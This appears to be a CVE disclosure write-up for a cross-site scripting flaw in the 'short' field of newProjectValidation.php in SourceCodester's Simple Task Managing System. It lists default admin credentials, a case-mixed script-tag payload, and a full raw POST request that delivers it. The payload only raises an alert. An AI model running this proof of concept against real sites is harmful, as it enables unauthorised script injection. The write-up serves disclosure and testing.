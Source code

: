 # CVE-2022-40029 Simple Task Managing System - XSS3

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newProjectValidation.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newProjectValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/newProjectValidation.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $short can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/6.png)

## Payload

```sql
POST /cve/Task%20Managing%20System%20in%20PHP/newProjectValidation.php HTTP/1.1
Host: localhost
Content-Length: 102
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/newProject.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hvkotkilavedcvtchro67huf9i
Connection: close

short=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/7.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/5.png)